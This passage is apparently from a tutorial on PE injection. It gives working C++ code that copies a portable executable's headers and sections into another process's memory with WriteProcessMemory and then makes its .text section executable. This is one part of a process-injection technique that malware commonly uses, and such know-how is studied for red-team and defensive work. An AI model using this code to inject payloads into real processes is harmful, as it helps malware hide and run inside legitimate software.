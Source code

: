 Once the memory has been allocated, it is possible to copy our PE in the target process.  
In a first time, it is required to update the ImageBase address in the NT Header with the address of the allocated memory. Once done, the injected PE headers will be copied  in our newly allocated memory.  
Then, by iterating over the section headers the content of the sections will be copied inside the allocated memory.  
During the relocation phase, the `.reloc` section header will be needed, therefore the function that will copy the injected PE will return the section header.  
Finaly, the function will change the permission on the `.text` section to make it executable.

{% highlight C++ %}
BOOL copyPEinTargetProcess(HANDLE pHandle, LPVOID& allocAddrOnTarget, LPVOID peToInjectContent, PIMAGE_NT_HEADERS64 peInjectNtHeader, PIMAGE_SECTION_HEADER& peToInjectRelocSection)
{

    peInjectNtHeader->OptionalHeader.ImageBase = (DWORD64)allocAddrOnTarget;
    _dbg("[+] Writing Header into target process\r\n");
    if (!WriteProcessMemory(pHandle, allocAddrOnTarget, peToInjectContent, peInjectNtHeader->OptionalHeader.SizeOfHeaders, NULL))
    {
        _err("[-] ERROR: Cannot write headers inside the target process. ERROR Code: %x\r\n", GetLastError());
        return FALSE;
    }
    _dbg("\t[+] Headers written at : 0x%p\n", allocAddrOnTarget);

    _dbg("[+] Writing section into target process\r\n");


    for (int i = 0; i < peInjectNtHeader->FileHeader.NumberOfSections; i++)
    {
        PIMAGE_SECTION_HEADER currentSectionHeader = (PIMAGE_SECTION_HEADER)((uintptr_t)peInjectNtHeader + 4 + sizeof(IMAGE_FILE_HEADER) + peInjectNtHeader->FileHeader.SizeOfOptionalHeader + (i * sizeof(IMAGE_SECTION_HEADER)));

        if (!strcmp((char*)currentSectionHeader->Name, ".reloc"))
        {
            peToInjectRelocSection = currentSectionHeader;
            _dbg("\t[+] Reloc table found @ 0x%p offset\r\n", (LPVOID)(UINT64)currentSectionHeader->VirtualAddress);
        }

        if (!WriteProcessMemory(pHandle, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress), (LPVOID)((UINT64)peToInjectContent + currentSectionHeader->PointerToRawData), currentSectionHeader->SizeOfRawData, nullptr))
        {
            _err("[-] ERROR: Cannot write section %s in the target process. ERROR Code: %x\r\n", (char*)currentSectionHeader->Name, GetLastError());
            return FALSE;
        }
        _dbg("\t[+] Section %s written at : 0x%p.\n", (LPSTR)currentSectionHeader->Name, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress));

        if (!strcmp((char*)currentSectionHeader->Name, ".text"))
        {
            DWORD oldProtect = 0;
            if (!VirtualProtectEx(pHandle, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress), currentSectionHeader->SizeOfRawData, PAGE_EXECUTE_READ, &oldProtect))
            {
                _err("Error in changing permissions on .text sections to RX -> 0x%x\r\n", GetLastError());
                return FALSE;
            }
            _dbg("\t[+] Permissions changed to RX on .text section \r\n");
        }
    }
    return TRUE;
}